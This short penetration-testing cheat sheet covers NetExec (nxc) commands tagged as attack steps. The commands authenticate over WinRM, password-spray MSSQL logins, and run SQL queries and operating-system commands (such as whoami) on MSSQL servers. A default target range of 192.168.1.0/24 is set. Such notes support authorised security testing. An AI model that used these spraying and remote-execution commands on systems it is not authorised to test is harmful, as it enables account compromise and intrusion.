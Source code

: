 ## nxc - winrm-auth
#platform/linux #target/remote #port/5985 #port/5986 #protocol/winrm #cat/ATTACK/CONNECT  

```bash
nxc winrm <ip> -u <user> -p <password>
```

## nxc - mssql password spray
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
nxc mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## nxc - mssql execute query
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## nxc - mssql execute command
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```

= ip: 192.168.1.0/24
